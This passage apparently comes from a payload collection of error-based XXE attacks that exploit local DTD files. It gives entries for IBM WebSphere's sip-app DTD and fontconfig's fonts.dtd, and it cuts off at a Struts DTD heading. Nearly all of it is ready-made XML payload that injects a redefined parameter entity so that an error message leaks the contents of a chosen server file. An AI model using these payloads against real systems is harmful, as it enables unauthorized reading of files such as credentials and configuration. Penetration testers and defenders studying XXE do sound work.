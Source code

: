```
]>
<message></message>
```

 --- 

**DTD File:** `/opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd`

**Injectable entity:** `%condition`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 


**DTD File:** `/usr/share/xml/fontconfig/fonts.dtd`

**Injectable entity:** `%constant`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/struts/struts-config_1_1.dtd`

